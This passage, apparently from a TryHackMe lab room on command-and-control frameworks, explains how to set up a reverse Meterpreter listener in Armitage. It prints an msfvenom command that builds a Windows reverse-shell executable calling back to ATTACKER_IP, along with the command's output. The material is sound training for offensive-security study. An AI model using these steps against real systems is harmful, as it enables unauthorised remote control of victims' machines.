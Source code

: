 Creating a Listener in Armitage

Next, we're going to move onto a topic that all C2 servers have - this being listener creation. To stay on topic, we will demonstrate how to set up a basic listener with Armitage then explore some of the other theoretical listeners you may encounter in various other C2 Frameworks. Let's create a basic Meterpreter Listener running on TCP/31337. To start, click on the Armitage dropdown and go over to the "Listeners" section; you should see three options, Bind, Reverse, and set LHOST. Bind refers to Bind Shells; you must connect to these hosts. Reverse refers to standard Reverse Shells; this is the option we will be using.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/1ad92c6b503433e43a906c0d6719f137.png)

_Creating a Listener in Armitage_

After clicking "Reverse," a new menu will open up, prompting you to configure some basic details about the listener, specifically what port you want to listen on and what listener type you would like to select. There are two options you can choose from, "Shell" or "Meterpreter". Shell refers to a standard netcat-style reverse shell, and Meterpreter is the standard Meterpreter reverse shell.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/f1799890a05592fcc5338efd4edf281b.png)

_Configuring the Listener_

After pressing enter, a new pane will open up, confirming that your listener has been created. This should look like the standard Metasploit exploit/multi/handler module.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/7bc806ea13495e55eb82fc5c399d8876.png)

_Listener successfully configured_

After setting up a listener, you can generate a standard windows/meterpreter/reverse\_tcp reverse shell using MSFvenom and set the LHOST to the Armitage server to receive callbacks to our Armitage server.&#x20;

**Getting a Callback**

MSFVenom Payload Generation

```shell-session
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

After generating the windows/meterpreter/reverse\_tcp using MSFVenom, we can transfer the payload to a target machine and execute it. After a moment or two, you should receive a callback from the machine.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/1dcc8962d5a595690a9b5ea9c4888dad.png)

_Callback from the Victim_
